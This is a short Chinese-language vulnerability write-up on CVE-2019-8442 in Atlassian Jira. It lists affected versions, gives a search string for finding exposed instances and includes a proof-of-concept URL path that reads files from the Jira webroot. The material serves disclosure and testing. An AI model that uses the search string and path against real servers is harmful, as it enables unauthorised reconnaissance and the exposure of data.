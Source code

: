 # Atlassian Jira com.atlassian.jira 敏感信息泄漏 CVE-2019-8442

## 漏洞描述

Atlassian Jira是澳大利亚Atlassian公司的一套缺陷跟踪管理系统。该系统主要用于对工作中各类问题、缺陷进行跟踪管理。 远程攻击者可利用该漏洞访问Jira webroot中的文件。

## 漏洞影响

Atlassian Jira < 7.13.4,

Atlassian Jira 8.00-8.0.4

Atlassian Jira 8.1.0-8.1.1

## 网络测绘

app="ATLASSIAN-JIRA"

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1651291151659-56949fca-ccf9-4acb-9a06-0835aba9b385.png)

验证POC

```java
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

![img](../../../.vuepress/public/img/1651291176483-c9859fd7-d8a8-442f-9524-0e84f6137322.png)